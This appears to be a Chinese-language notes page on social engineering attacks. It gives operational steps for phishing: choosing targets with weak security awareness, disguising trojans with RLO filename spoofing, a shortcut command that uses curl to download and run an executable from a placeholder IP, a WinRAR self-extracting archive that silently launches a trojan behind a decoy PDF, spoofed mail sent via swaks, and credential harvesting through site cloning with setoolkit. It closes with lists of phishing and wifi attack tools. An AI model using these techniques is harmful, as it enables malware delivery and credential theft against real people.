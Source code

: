 社会工程学
========================================

思路
----------------------------------------

基本流程
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 寻找大鱼
	目标一般包括：HR、销售、文员等安全意识比较薄弱的人员，以及运维、开发等掌握重要资源的人员。
+ 制作鱼饵
	一个高质量鱼饵一般分为两部分，一个是邮件内容更加的逼真可信，另一个是邮件的附件尽可能伪装的正常。
+ 抛竿
	最后把鱼竿抛出后就可以坐等鱼上钩了。

制作鱼饵
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ RLO文件伪装
	- 选择文件，F2重命名
	- 右键菜单，插入Unicode控制字符，选择RLO
	- 输入gnp后
	- 使用resourcehacker更换图片图标
+ 快捷方式
	- 生成木马exe文件
	- 创建快捷方式：``C:\Windows\System32\cmd.exe /k curl http://xxx.xxx.xxx.xxx/exe/artifact.exe --output C:\Windows\temp\win.exe && C:\Windows\temp\win.exe``
	- 更换一个系统图标
+ WinRAR
	- 生成木马MDE.exe,附件为 "美女大学生电话号码列表.pdf"
	- 选中2个文件，右键 "添加到压缩文件"
	- 点击创建自解压格式压缩文件
	- 点击高级"自解压选项"
		+ 常规:设置释放路径为"C:\windows\temp",勾选"绝对路径"
		+ 设置:解压后运行文件依次为"C:\windows\temp\MDE.exe","C:\windows\temp\美女大学生电话号码列表.pdf"
		+ 模式:全部隐藏
		+ 更新:勾选"解压并更新文件","覆盖所有文件"
		+ 文本和图标：选择合适的ico

邮件钓鱼
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 基础
	- SPF验证
		+ SPF是Sender Policy Framework 的缩写，SPF 记录实际上是服务器的一个 DNS 记录。
		+ 一种以IP地址认证电子邮件发件人身份的技术。接收邮件方会首先检查域名的SPF记录，来确定发件人的IP地址是否被包含在SPF记录里面。
	- 检查SPF
		+ ``nslookup -type=txt qq.com``
	- SPF绕过
+ Swaks
	- 测试连通性：``swaks --to 123@qq.com``
	- 钓鱼邮件：``swaks --to 目标邮箱 -f xxx@163.com --data test.eml --server smtp.163.com -p 25 -au xxx@163.com -ap xxx邮箱密码``
+ Gophish
	-  项目地址：``https://github.com/gophish/gophish``
+ 缺点
	- 发出的邮件会显示由xxx@163.com代发
	- 可以由第三方平台代发：smtp2go，SendCloud

网站克隆
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ setoolkit
	- Spear-Phishing Attack Vectors【鱼叉式网络钓鱼攻击】
	- Website Attack Vectors【web网站式攻击-钓鱼(常用)】
		+ Java Applet Attack Method【java小程序攻击】
		+ Metasploit Browser Exploit Method【Metasploit浏览器利用】
		+ Credential Harvester Attack Method【凭证攻击(常用)】
			- Web Templates【web模板】
			- Site Cloner【克隆网站】
				默认IP，然后输入被克隆网站，登录记录就会被记录。
			- Custom Import【自定义导入】
		+ Tabnabbing Attack Method【Tabnabbing攻击】
		+ Web Jacking Attack Method【web劫持】
		+ Multi-Attack Web Method【web多重攻击】
		+ HTA Attack Method【HTA攻击】
			- Web Templates【web模板】
			- Site Cloner【克隆网站】
				输入克隆的站点，监听ip和端口默认就行，最后还需选择一个攻击载荷 Meterpreter Reverse TCP
			- Custom Import【自定义导入】
	- Infectious Media Generator【传染性木马】
	- Create a Payload and Listener【创建payload和监听器】
	- Mass Mailer Attack【邮件群发攻击】
	- Arduino-Based Attack Vector【基于安卓的攻击】
	- Wireless Access Point Attack Vector【wifi攻击】
	- QRCode Generator Attack Vector【生成二维码(就普通二维码)】
	- Powershell Attack Vectors【Powershell攻击】
	- Third Party Modules【第三方模块】
+ nginx反向代理克隆镜像网站
	- 原理：利用nginx反向代理克隆生成镜像网站就是通过反向代理将请求分发到一个不属于我们的网站去处理，最后将处理的结果再通过nginx返回给用户。

fake flash
----------------------------------------
- `Fake-flash <https://github.com/r00tSe7en/Fake-flash.cn>`_

OSINT
----------------------------------------
- `osint <http://osintframework.com/>`_
- `osint git <https://github.com/lockfale/OSINT-Framework>`_
- `OSINT-Collection <https://github.com/Ph055a/OSINT Collection>`_
- `trape <https://github.com/jofpin/trape>`_
- `Photon <https://github.com/s0md3v/Photon>`_
	+ 官方帮助:``https://github.com/s0md3v/Photon/wiki/Usage#dumping-dns-data``
	+ 基本用法:``python photon.py -u http://example.com``
	+ 克隆网站:``python photon.py -u "http://example.com" --clone``
	+ Depth of crawling:``-l or --level | Default: 2``
	+ Number of threads:``-t or --threads | Default: 2``
	+ Delay between each HTTP request:``-d or --delay | Default: 0``
	+ timeout:``--timeout | Default: 5``
	+ Cookies:``python photon.py -u "http://example.com" -c "PHPSESSID=u5423d78fqbaju9a0qke25ca87"``
	+ Specify output directory:``-o or --output | Default: domain name of target``
	+ Verbose output:``-v or --verbose``
	+ Exclude specific URLs:``python photon.py -u "http://example.com" --exclude="/blog/20[17|18]"``
	+ Specify seed URL(s):``python photon.py -u "http://example.com" --seeds "http://example.com/blog/2018,http://example.com/portals.html"``
	+ Specify user-agent(s):``python photon.py -u "http://example.com" --user-agent "curl/7.35.0,Wget/1.15 (linux-gnu)"``
	+ Custom regex pattern:``python photon.py -u "http://example.com" --regex "\d{10}"``
	+ Export formatted result:``python photon.py -u "http://example.com" --export=json``
	+ Use URLs from archive.org as seeds:``python photon.py -u "http://example.com" --wayback``
	+ Skip data extraction:``python photon.py -u "http://example.com" --only-urls``
	+ Update:``python photon.py --update``
	+ Extract secret keys:``python photon.py -u http://example.com --keys``
	+ Piping (Writing to stdout):``python photon.py -u http://example.com --stdout=custom | resolver.py``
	+ Ninja Mode:``--ninja``
	+ Dumping DNS data:``python photon.py -u http://example.com --dns``
- `pockint <https://github.com/netevert/pockint>`_

钓鱼
----------------------------------------
- `spoofcheck <https://github.com/BishopFox/spoofcheck>`_
- `gophish <https://github.com/gophish/gophish>`_
- `SocialFish <https://github.com/UndeadSec/SocialFish>`_
- `WiFiDuck <https://github.com/spacehuhn/WiFiDuck>`_ Bad USB

wifi
----------------------------------------
- `wifiphisher <https://github.com/wifiphisher/wifiphisher>`_
- `evilginx <https://github.com/kgretzky/evilginx>`_
- `mana <https://github.com/sensepost/mana>`_
- `pwnagotchi <https://github.com/evilsocket/pwnagotchi>`_

综合框架
----------------------------------------
- `theHarvester <https://github.com/laramies/theHarvester>`_
- `Th3inspector <https://github.com/Moham3dRiahi/Th3inspector>`_
- `ReconDog <https://github.com/s0md3v/ReconDog>`_
